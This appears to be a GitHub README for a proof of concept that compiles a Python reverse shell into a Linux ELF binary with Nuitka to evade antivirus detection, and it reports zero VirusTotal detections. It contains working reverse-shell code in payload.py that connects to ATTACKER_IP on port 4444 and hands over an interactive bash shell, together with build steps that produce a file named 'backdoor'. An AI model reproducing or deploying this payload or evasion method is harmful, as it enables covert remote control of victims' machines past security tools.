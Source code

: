 # 🛡️ Undetected ELF Payload (AV Bypass) via Python Compilation (Nuitka Only)

This proof-of-concept demonstrates a method to bypass antivirus detection on Linux by compiling a Python reverse shell into an ELF binary using [Nuitka](https://github.com/Nuitka/Nuitka). The compiled payload remains undetected by major antivirus engines, including on VirusTotal.

> 📌 CVE submission in progress.

---

## 🚀 Summary

- 💻 Payload: Python reverse shell
- ⚙️ Method: Python → ELF using Nuitka only
- 🧩 Obfuscation: No extra strip or packing applied
- 🛡️ Result: 0 detections on VirusTotal (at the time of testing)

---

## 📦 PoC Files

| File | Description |
|------|-------------|
| `payload.py` | Python reverse shell |
| `build.sh` | Simple build script using Nuitka |
| `dist/payload` | Final compiled ELF binary |
| `vt-scan.jpg` | VirusTotal scan result showing 0 detections |
| `backdoor` | The Backdoor in the virus total sha256: df60a181ceba07d35350fb7d754f239685996b40ea24d155a82344f7fd52b651

---

## 🔧 Build Instructions

```bash
sudo apt update
sudo apt install python3 python3-pip gcc g++ -y
pip3 install nuitka

# Compile the Python file into an ELF binary
bash build.sh
```
---
## 🐍 payload.py
```bash
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKER_IP",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
```
Replace ATTACKER_IP with your ip 
---
## 🔨 build.sh
```bash
#!/bin/bash

python -m nuitka --onefile --standalone --remove-output --output-filename=backdoor backdoor.py
mkdir -p dist
mv backdoor dist/payload
```
---
👤 Credits

Discovered and developed by:
Mohamed Aly (00xCanelo)
🔗 https://github.com/00xCanelo
```
